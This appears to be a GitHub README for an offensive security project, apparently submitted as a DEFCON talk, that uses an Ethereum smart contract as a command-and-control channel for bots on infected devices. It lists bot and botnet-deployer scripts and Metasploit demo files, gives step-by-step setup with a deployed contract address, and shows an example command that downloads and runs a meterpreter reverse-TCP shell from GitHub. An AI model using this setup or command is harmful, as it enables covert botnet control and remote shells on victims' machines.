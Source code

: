 # DAPPin that A$$ | A Blockchain Enabled C2 Solution


A C2 solution that lives in the blockchain as a DAPP.

Core Contents:
* [SpectralCommandRelay.sol](./contracts/SpectralCommandRelay.sol): Smart Contract that can be deployed to the blockchain to act as a C2 channel
* [bot_minimal.py](./bots/bot_minimal.py): An incredibly simple endpoint for our C2 blockchain solution to be run on infected devices
* [bot_deployer.py](./bots/bot_deployer.py): Script that generates & manages a local botnet
* [bot_template.py](./bots/bot_template.py): Template for a more advanced endpoint for our C2 blockchain solution to be run on infected devices

Demo Contents:
* [SCR_Demo_Meter.rc](./demo/SCR_Demo_Meter.rc): MSFConsole init script used in our local botnet demo
* [cleanup.sh](./demo/cleanup.sh): Script to cleanup any lingering meterpreter sessions after our demo

Presentation Contents:
* [DAPPin_that_A$$_DEFCON_Submission_BlockchainC2.pptx](./demo/DAPPin_that_A$$_DEFCON_Submission_BlockchainC2.pptx): The powerpoint we sent to the DEFCON Talks Panel



# How to Play

* Get setup with a web3 wallet, the [Metamask](https://chrome.google.com/webstore/detail/metamask/nkbihfbeogaeaoehlefnkodbefgpgknn) chrome plugin is pretty quick and straight forward
* Grab [SpectralCommandRelay.sol](./contracts/SpectralCommandRelay.sol) and paste it into [https://remix.ethereum.org/](https://remix.ethereum.org/).
* Compile our .sol script
* Switch your web3 provider to "Injected Web3" and set your network to the "Rinkeby" testchain.
* Either deploy an instance of the relay or "Load at address" 0x69429FB223b3BA3D5823B980E590bF857a680c13
* Grab some [scratch on rinkeby](https://faucet.rinkeby.io/) and start sending commands

An Example command that installs and runs a meterpreter shell on an infected device which is running our [bot_minimal.py](./bots/bot_minimal.py) script
```
0~wget https://github.com/Cooperw/meterpreter_executables/raw/main/linux_x64_meterpreter_reverse_tcp_local_4444.elf; chmod +x linux_x64_meterpreter_reverse_tcp_local_4444.elf; ./linux_x64_meterpreter_reverse_tcp_local_4444.elf
```
